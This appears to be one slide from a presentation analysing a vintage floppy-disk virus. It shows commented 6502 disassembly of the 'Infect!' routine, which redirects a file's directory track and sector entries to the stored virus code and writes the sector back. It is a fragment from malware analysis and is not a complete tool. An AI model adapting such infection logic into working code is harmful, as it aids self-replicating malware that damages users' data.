

# CODE SNIPPET: Infect!

STA        B4_TRACK_000E     ; Store Track number in buffer #4
LDA        DAT_0304,X        ; Load Sector number of file
STA        B4_SECTOR_000F    ; Store sector number in buffer #4
LDA        B1_TRACK_0008     ; Load Track # of saved virus ($12)
STA        DAT_0303,X        ; Store it instead of the previous
LDA        B1_SECTOR_0009    ; Load Sector # of saved virus code
STA        DAT_0304,X        ; Store it instead of the previous
LDA        #0x90             ; Now save the sector to disk
JSR        FUN_04b9
CLC                          ; Clear carry for returning the 	                        result
RTS
63